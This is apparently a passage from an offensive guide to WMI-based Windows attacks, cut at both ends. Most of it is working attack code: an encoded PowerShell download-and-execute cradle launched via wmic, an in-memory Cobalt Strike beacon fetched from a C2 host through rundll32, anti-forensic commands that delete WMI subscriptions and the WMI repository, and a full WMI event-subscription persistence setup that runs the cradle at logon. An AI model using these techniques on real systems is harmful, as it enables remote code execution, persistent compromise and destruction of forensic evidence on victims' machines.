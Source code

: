 ```cmd
    ]]>
  </msxsl:script>
</xsl:stylesheet>

# Environment variable obfuscation
wmic /node:%COMPUTERNAME% process call create "%WINDIR%\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AbgBlAHQALwBpAG4AdgBhAGwAaQBkAC4AcABzADEAJwApAA=="
```
#### Memory-Resident Payload Delivery
```powershell
# Execute Cobalt Strike beacon without disk write
$HexPayload = "4D5A[...]0000" # PE header + shellcode
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList @(
    "rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication\";`$h=new%20ActiveXObject('WinHttp.WinHttpRequest.5.1');`$h.Open('GET','http://c2.server/beacon.bin',0);`$h.Send();iex(`$h.ResponseText)"
)
```
#### Anti-Forensic Measures
```powershell
# WMI artifact cleanup
Get-WmiObject -Namespace root\Subscription -Class __EventFilter | Remove-WmiObject
Get-WmiObject -Namespace root\Subscription -Class __EventConsumer | Remove-WmiObject
Remove-Item -Path C:\Windows\System32\wbem\Repository\ -Recurse -Force
```
## Persistence Mechanisms
### WMI Event Subscriptions
```powershell
# Filter for user logon events
$EventFilterArgs = @{
    EventNamespace = 'root\CimV2'
    Name = "UserLogonTracker"
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 30 WHERE TargetInstance ISA 'Win32_LogonSession'"
    QueryLanguage = 'WQL'
}
$Filter = Set-WmiInstance -Class __EventFilter -Arguments $EventFilterArgs

# Consumer to execute payload
$ConsumerArgs = @{
    Name = "LogonAction"
    CommandLineTemplate = "powershell -WindowStyle Hidden -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AbgBlAHQALwBpAG4AdgBhAGwAaQBkAC4AcABzADEAJwApAA=="
}
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# Bind filter to consumer
$BindingArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Class __FilterToConsumerBinding -Arguments $BindingArgs
```
### MOF File Backdoors
```c
// malicious.mof
#pragma namespace("\\\\.\\root\\subscription")

```
